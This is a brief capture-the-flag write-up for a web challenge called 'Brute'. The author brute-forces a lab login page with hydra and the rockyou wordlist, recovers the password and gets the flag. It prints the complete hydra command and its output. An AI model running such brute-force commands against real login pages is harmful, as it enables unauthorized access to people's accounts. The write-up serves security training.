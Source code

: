 # Brute

## Overview

- Overall difficulty for me: Very easy

**In this challenge, we can spawn a docker instance:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027082238.png)

## Find the flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027082301.png)

**Looks like we need to brute force the login page!**

**To do so, I'll use `hydra`:**

When we typed an incorrect password, it shows us **`Incorrect Password!` error**, and **the POST request data is `password=<password_here>`.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027082418.png)

**Armed with this information, we can use `hydra` to brute force it:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/Brute]
└─# hydra -l 'any_user' -P /usr/share/wordlists/rockyou.txt 10.10.100.200 -s 37825 http-post-form "/:password=^PASS^:Incorrect Password"
[...]
[37825][http-post-form] host: 10.10.100.200   login: any_user   password: princess13
```

**Find the password! Let's login!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027083137.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221027083144.png)

We found the flag!

# Conclusion

What we've learned:

1. Brute Forcing HTTP Login Page via `hydra`